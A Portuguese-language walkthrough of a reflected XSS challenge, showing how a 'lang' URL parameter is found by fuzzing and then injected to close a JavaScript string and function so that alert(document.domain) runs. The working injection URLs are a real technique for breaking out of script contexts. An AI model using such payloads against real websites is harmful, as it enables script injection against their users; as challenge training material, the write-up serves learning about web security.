 Resolução do Desafio XSS Reflected - https://bountyleaks.cf/challenge/reflected.php

1.  Ao acessarmos a página, vemos um trecho de código em JS
```
// Its not used anymore
function display_message(){
 var lang = "en-US";
 if(lang == "en-US"){
  var message = "Welcome!";
  return message 
 }
 var message = "Bem-vindo!";
 return message;
}

// just say hello, doesnt matter what language do you speak, english is universal LOL
document.write('<h1>Welcome hacker =)</h1>');
```
2. Nesse ponto, levanta-se a suspeita que existe alguma querystring / parâmetro de URL que podemos manipular

Provavelmente a aplicação detecta qual o idioma do navegador do usuário ou aceita receber isso via parâmetro (refletindo na página).

3. Como não temos certeza, aqui caberiam duas abordagens:

3.1 Verificar que existem duas variáveis JS (lang e message) e verificar se via querystring elas são refletidas na página (?lang=teste e ?message=teste)

3.2 Utilizar algum fuzzer (ffuf, x8, dalfox, arjun) para usar um arquivo / lista cheio de parâmetros e ver qual pode estar refletindo na página: comando -url https://bountyleaks.cf/challenge/reflected.php?FUZZAQUI=teste

4. Fazendo algum destes modos supracitados, chegamos a conclusão que acessando: https://bountyleaks.cf/challenge/reflected.php?lang=123, faz com que o trecho de código da página vire:
```
// Its not used anymore
function display_message(){
 var lang = "123";
```
Dessa forma o valor informado pelo usuário via URL está refletindo na página (dando margem para injeção de códigos)

5. Como já estamos dentro de um contexto JS (dentro das tags script), não é preciso que a gente reabra essas tags para executar um javascript, mas mesmo assim, podemos confirmar que a aplicação não permite tags como < e > : ```https://bountyleaks.cf/challenge/reflected.php?lang=123<```
 
Ao acessá-la, o parâmetro "var lang" volta para seu valor padrão: "en-US"

6. Então para executar o XSS, vamos precisar ter um pouco de conhecimento de JS, pois é o contexto que estamos inseridos: 

6.1 Nossa entrada de dados está sendo refletida dentro de um valor de variável (lang) que está dentro de uma função chamada display_message(), que por sua vez não é chamada automaticamente pelo site, somente declarada

6.2 Precisaremos, então, sair do contexto dessa função que não é chamada, para que nosso XSS seja executado assim que o usuário entrar na página

6.3 Para isso, precisamos fechar aquela chave da função ```display_message () "{"```, com uma chave fechando esse bloco de código: "}"

6.4 Caso acessássemos a URL: https://bountyleaks.cf/challenge/reflected.php?lang=";%0a}%0aalert(123);// 
Considerando %0a para \n (quebra de linha), ficando o trecho de código do nosso site agora:
``` 
function display_message(){
 var lang = " ";
}
alert(123);//";
if(lang == "en-US"){
  var message = "Welcome!";
  return message 
 }
 var message = "Bem-vindo!";
 return message;
}
```

6.5 Conseguimos! Saímos do escopo da função JS, mas o JS não irá triggar, devido a um erro de sintaxe (veja no console do navegador):

Não estamos mais dentro de uma função e existe linhas falando "return". O valor vai ser retornado pra onde? Não existe função englobando ela para esse retorno ficar explícito.

Esse erro inclusive será alertado em seu console do navegador. Qualquer erro de sintaxe JS dos sites voltam nele.

6.6 Vamos então criar uma outra função, fingindo que existe uma outra função logo após, englobando esses returns, então:
https://bountyleaks.cf/challenge/reflected.php?lang=%22;%0a}%0aalert(document.domain);%0afunction%20nuncaserachamada(){//
Ficando nosso código:

```
function display_message(){
 var lang = "";
}
alert(123);
function nuncaserachamada(){//";
 if(lang == "en-US"){
  var message = "Welcome!";
  return message 
 }
 var message = "Bem-vindo!";
 return message;
}
```

Pronto =), XSS executado o/
